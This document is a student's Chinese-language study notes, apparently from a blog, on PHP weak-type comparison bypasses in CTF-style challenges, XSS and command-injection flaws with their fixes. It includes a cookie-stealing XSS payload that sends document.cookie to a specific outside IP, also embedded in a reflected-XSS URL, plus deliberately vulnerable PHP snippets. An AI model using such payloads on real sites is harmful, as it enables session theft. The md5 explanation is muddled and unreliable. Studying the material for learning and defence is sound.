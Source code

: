 ```yaml
---

title: 第四周学习笔记--弱类型比较
date: 2020-09-14 17:43:40
categories: 笔记
description: 
- 我们输入520为数字，执行die；输入520a，不属于数字，却能520a=520，true，打印U are right!

- 说明由于PHP是一门弱类型语言，存在弱类型比较问题，在比较时，字符串`520a`会先强制转换`520a`为整数，再与520进行比较。

---
```

#                                   第四周学习笔记

## 弱类型比较

### “==”和“===”的比较

```
<?php
$o = $_GET['o'];
if(is_numeric($o)){
    die("no hack!!");
}
if($o==520){
    echo "U are right!";
}
?>
```

- 我们输入520为数字，执行die；输入520a，不属于数字，却能520a=520，true，打印U are right!

- 说明由于PHP是一门弱类型语言，存在弱类型比较问题，在比较时，字符串`520a`会先强制转换`520a`为整数，再与520进行比较。

### switch弱类型比较问题

- 当在switch中使用case判断数字时，switch会将其中的参数转换为int类型进行计算

```
<?php
    $i ="3name";
    switch ($i) {
    case 0:
    case 1:
    case 2:
         echo "this is two";
         break;
    case 3:
         echo "flag";
    break;
    }
 ?>
```

- 最终打印 flag

### MD5() 、sha1()哈希函数相等问题

```
 <?php
    if (isset($_POST['a']) and isset($_POST['b'])) {
    if ($_POST['a'] != $_POST['b'])
    if (md5($_POST['a']) === md5($_POST['b']))
    die('Flag: '.$flag);
    else
    print 'Wrong.';
    }
    ?>
```

- 由于md5（）、sha1（）哈希函数不能编译数组，所以输出为fail

### 十六进制比较问题

```
 <?php
    function noother_says_correct($number)
    {
           $one = ord('1');
           $nine = ord('9');
           for ($i = 0; $i < strlen($number); $i++)
           {  
                   $digit = ord($number{$i});
                   if ( ($digit >= $one) && ($digit <= $nine) )
                   {
                           return false;
                   }
           }
              return $number == '54975581388';
    }
    $flag='*******';
    if(noother_says_correct($_GET['key']))
       echo $flag;
    else
       echo 'access denied';
    ?>
```

- 首先分析代码，函数要求变量  $number  不能存在1~9之间的数字，最后，又要求$number=54975581388;
  这本来是自相矛盾的，但php在转码时会把16进制转化为十进制.于是把  54975581388    转换成16进制为   0xccccccccc   ，记得带上0x；

## XSS漏洞的基本原理、利用和防御

### 何为XSS漏洞

- xss原理：其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户Cookie信息、破坏页面结构、重定向到其它网站等。

```
window.location.href="http://39.107.126.173:25565/?cookie="+document.cookie
```

### 反射型XSS

- 反射型xss，你提交了数据成功实现了xss。但是这是对你这次访问产生了影响，并非持久性攻击

```
http://127.0.0.1/xss.php?a=<script type="text/javascript">window.location.href="http://39.107.126.173:25565/?cookie="+document.cookie</script>
```

- 我们通过 get 传参，结果被恶意传入一段js代码，被直接执行。黑客构造这么一个链接，让我们打开我们的cookie就会被窃取。

**xss.php**

```
<?php
echo $_GET['a'];
?>
```

### 存储型XSS

- 储存型xss，你提交了数据成功实现了xss。并且存入了数据库，别人访问这个页面的时候就会自动出发

### DOM-XSS

- #### DOM型XSS的核心是运用DOM函数去执行访问xss平台的目的

### xss修复

- 利用除去html的函数  strip_tags
- 过滤

## 命令执行漏洞

- **命令执行漏洞原理：**
  应用有时需要调用一些执行系统命令的函数，当用户能控制这些函数的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。

- **常见php执行系统命令函数**

  ```
  system（）
  exec（）
  shell_exec（）
  passthru（）
  pcntl_exec（）
  popen（）
  proc_open（）
  反引号
  ```

- **漏洞危害：**
  
  1. 继承Web服务程序的权限去执行系统命令或读写文件
  2. 控制整个网站甚至服务器
  3. 进一步内网渗透
  
- **漏洞修复：**
  
  1. 尽量少用执行命令的函数或者直接禁用
  2. 参数值尽量使用引号包括
  3. 在使用动态函数之前，确保使用的函数是指定的函数之一
  4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义
  5. 对PHP语言来说，不能完全控制的危险函数最好不要使用